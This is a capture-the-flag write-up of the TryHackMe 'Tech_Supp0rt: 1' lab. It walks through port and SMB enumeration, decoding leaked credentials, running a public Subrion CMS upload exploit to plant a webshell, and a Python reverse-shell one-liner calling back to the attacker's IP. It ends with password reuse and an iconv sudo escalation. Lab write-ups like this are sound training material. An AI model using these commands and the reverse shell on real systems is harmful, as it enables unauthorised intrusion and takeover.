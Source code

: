 # THM - Tech_Supp0rt: 1

#### Ip: 10.10.199.225
#### Name: Tech_Supp0rt: 1
#### Rating: Easy

----------------------------------------------------------------------

![tech.png](../assets/tech_support_1_assets/tech.png)

```text
Hack into the scammer's under-development website to foil their plans.
```

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/THM/Tech_Supp0rt:_1]
└─$ sudo nmap -p-  --min-rate 10000 10.10.199.225                     
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-09 16:03 CDT
Nmap scan report for 10.10.199.225
Host is up (0.13s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 8.86 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/THM/Tech_Supp0rt:_1]
└─$ sudo nmap -sC -sV -T4 10.10.199.225 -p 22,80,139,445              
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-09 16:03 CDT
Nmap scan report for 10.10.199.225
Host is up (0.12s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 108af572d7f97e14a5c54f9e978b3d58 (RSA)
|   256 7f10f557413c71dbb55bdb75c976305c (ECDSA)
|_  256 6b4c23506f36007ca67c1173c1a8600c (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1h49m58s, deviation: 3h10m30s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-08-09T21:03:43
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2023-08-10T02:33:45+05:30

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.28 seconds
```

Heading to the site we find an Apache default landing page:

![site.png](../assets/tech_support_1_assets/site.png)

We can use Feroxbuster to fuzz for directories:

![ferox.png](../assets/tech_support_1_assets/ferox.png)

Looks like we've got a `/test` directory, as well as several WordPress directories. 

Heading to http://10.10.199.225/test we find an extremely spammy page:

![test.png](../assets/tech_support_1_assets/test.png)

Before enumerating HTTP any further, lets check out SMB to see if we can find anything.

I'll see what shares we can access using CrackMapExec:

![cme.png](../assets/tech_support_1_assets/cme.png)

Looks like there's a `websvr` share we can access. To do this I'll use smbclient:

![smb.png](../assets/tech_support_1_assets/smb.png)

Pulling back this file to my machine we find a todo list and some credentials:

![enter.png](../assets/tech_support_1_assets/enter.png)

This password appears to be encrypted. Going off the hint in the note I'll head to https://gchq.github.io/CyberChef/ and use the 'Magic' feature to decode this:

![chef.png](../assets/tech_support_1_assets/chef.png)

Based on the note we can navigate to http://10.10.199.225/subrion/panel/ and login with the credentials:

![subrion.png](../assets/tech_support_1_assets/subrion.png)

Now that we have working credentials, I searched for Subrion version 4.2.1 exploits and found: https://www.exploit-db.com/exploits/49876

Looks like the exploit logs in with the user provided credentials and uploads a webshell. 

![python.png](../assets/tech_support_1_assets/python.png)

Lets give it a shot:

### Exploitation

```text
┌──(ryan㉿kali)-[~/THM/Tech_Supp0rt:_1]
└─$ python subrion_exploit.py -u http://10.10.199.225/subrion/panel/ --user admin --passw Scam2021
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://10.10.199.225/subrion/panel/
[+] Success!
[+] Got CSRF token: a52ERKms3Eqillk50kRWwd1iPFgJmxhpCTOdVI4B
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: jsniraeesrslatp

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://10.10.199.225/subrion/panel/uploads/jsniraeesrslatp.phar 

$ whoami
www-data

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Nice, that worked!

Lets use a Python one-liner to get a proper shell rather than using this pseudo shell:

We can head to revshells.com and grab the script:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.61.45",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![stable.png](../assets/tech_support_1_assets/stable.png)

Browsing around the box I found `/var/www/html/wordpress/wp-config.php` which had some credentials in it:

```text
/** MySQL database username */
define( 'DB_USER', 'support' );

/** MySQL database password */
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

```

We can see who may be using this password and then use the `su` command:

```text
www-data@TechSupport:/var/www/html/wordpress$ cat /etc/passwd | grep bash
cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
scamsite:x:1000:1000:scammer,,,:/home/scamsite:/bin/bash
www-data@TechSupport:/var/www/html/wordpress$ su scamsite
su scamsite
Password: ImAScammerLOL!123!

scamsite@TechSupport:/var/www/html/wordpress$ whoami
whoami
scamsite
```

Cool, that worked. We can now run `sudo -l` to see what user scamsite can run with eleveated permissions:

![sudo.png](../assets/tech_support_1_assets/sudo.png)

We can now head to https://gtfobins.github.io/gtfobin and search for iconv:

![gtfo.png](../assets/tech_support_1_assets/gtfo.png)

Lets use this to read the root.txt flag:

![root_flag.png](../assets/tech_support_1_assets/root_flag.png)

Thanks for following along!

-Ryan

----------------------------------------------------

